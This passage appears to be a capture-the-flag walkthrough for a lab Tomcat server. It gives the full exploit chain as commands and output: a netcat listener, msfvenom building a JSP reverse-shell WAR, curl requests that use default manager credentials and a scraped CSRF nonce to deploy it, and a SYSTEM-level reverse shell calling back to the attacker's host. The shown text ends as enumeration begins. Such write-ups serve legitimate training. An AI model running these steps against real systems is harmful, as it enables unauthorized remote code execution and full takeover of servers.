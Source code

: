 ```sh
❯ rlwrap nc -lvnp "9001"
```

Then, I'll use `msfvenom` to generate a `java/jsp_shell_reverse_tcp` payload.

```sh
❯ msfvenom -p "java/jsp_shell_reverse_tcp" LHOST="10.10.14.4" LPORT="9001" -f "war" -o "/workspace/revshell.war"
```

### Exploitation

Now, it's time to upload our WAR file. However, to do so, we need a `CSRF_NONCE`
and a `JSSESSID` token.

```sh
❯ RESPONSE=$(curl -s -i -H "Authorization: Basic dG9tY2F0OnMzY3JldA==" "http://10.10.10.95:8080/manager/html"); \
    CSRF_NONCE=$(echo "$RESPONSE" | grep -oP '<form class="inline" method="POST" action="/manager/html/stop;jsessionid=[^?]+?\?path=/&amp;org.apache.catalina.filters.CSRF_NONCE=\K[^"]+'); \
    JSSESSID=$(echo "$RESPONSE" | grep -oP "Set-Cookie: JSESSIONID=\K[^;]+")
```

With these values, we can upload our WAR file.

```sh
❯ curl -s -o "/dev/null" -H "Authorization: Basic dG9tY2F0OnMzY3JldA==" "http://10.10.10.95:8080/manager/html/upload;jsessionid=$JSSESSID?org.apache.catalina.filters.CSRF_NONCE=$CSRF_NONCE" -X "POST" -F "deployWar=@/workspace/revshell.war"
```

Finally, let's trigger our `revshell.war` file!

```sh
❯ curl -s -o "/dev/null" "http://10.10.10.95:8080/revshell/"
```

And if we check our listener:

```
connect to [10.10.14.4] from (UNKNOWN) [10.10.10.95] 49192
<SNIP>
C:\apache-tomcat-7.0.88>
```

It caught the reverse shell!

I'll transform it into a Powershell one.

## Getting a lay of the land

If we run `whoami`, we see that we got a foothold as `NT AUTHORITY\SYSTEM`.

I could just retrieve the flags and call it a day, but for good measure I'll
still enumerate basic information.

### Architecture
